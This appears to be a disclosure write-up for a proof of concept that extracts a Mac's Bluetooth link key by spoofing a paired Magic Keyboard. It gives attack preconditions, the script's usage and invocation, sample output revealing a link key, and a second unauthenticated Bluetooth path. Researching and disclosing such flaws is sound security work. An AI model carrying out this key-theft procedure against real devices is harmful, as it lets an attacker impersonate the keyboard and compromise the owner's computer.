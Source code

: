 #### Starting State

- Magic Keyboard is paired with a Mac that does not have Lockdown Mode enabled
- The attacker knows the Bluetooth address and serial number of the Magic Keyboard
- The attacker as a donor Magic Keyboard (which will be temporarily reconfigured to spoof the target keyboard)

#### Running the PoC

```
> ./read-link-key-from-mac.py --help
usage: read-link-key-from-mac.py [-h] -a KEYBOARD_ADDRESS -s KEYBOARD_SERIAL

options:
  -h, --help            show this help message and exit
  -a KEYBOARD_ADDRESS, --keyboard_address KEYBOARD_ADDRESS
  -s KEYBOARD_SERIAL, --keyboard_serial KEYBOARD_SERIAL
```

#### Invocation

```
./read-link-key-from-mac.py -a 1c:57:fc:08:65:12 -s F1T2107RUNW12NXA9
```

#### Output

```
[2024-01-07 10:34:53.910]  Turn on the donor keyboard and plug it into this computer
[2024-01-07 10:34:58.200]  changing Bluetooth address from 3C:A6:F6:E1:3D:F0 to 1c:57:fc:08:65:12
[2024-01-07 10:34:58.201]  serial number: F0T230C02AZ0NC1EH -> F1T2107RUNW12NXA9
[2024-01-07 10:34:58.202]  Unplug the donor keyboard and plug it into the Mac.
[2024-01-07 10:34:58.202]  Wait a few seconds, then plug it back into this computer.
[2024-01-07 10:35:02.533]  keyboard was unplugged
[2024-01-07 10:35:13.463]  keyboard has returned
[2024-01-07 10:35:13.464]  Mac BT Address - a4:c3:99:e8:a8:6c
[2024-01-07 10:35:13.464]  BT Link-Key    - c95e3ec98809f2745d32029e7f97b67e
```

### Magic Keyboard Link Key via Bluetooth

When the Magic Keyboard is plugged into the Mac, the Mac sends the Bluetooth link key to the Magic Keyboard over USB.

The link key remains in memory until the Magic Keyboard is powered off, and can be read via an unauthenticated Bluetooth HID service on the keyboard.

The unauthenticated Bluetooth HID service becomes available when the Magic Keyboard is unplugged from the Mac, and remains available until the Bluetooth link is established.

This is a zero-click attack with a timing component. The PoC does not implement a timing trigger, and instead attempts to connect to the Magic Keyboard in a loop until successful.

#### Affected Versions

Apple started rolling out [Magic Keyboard patches](https://support.apple.com/en-us/HT214050) on 2024-01-09.
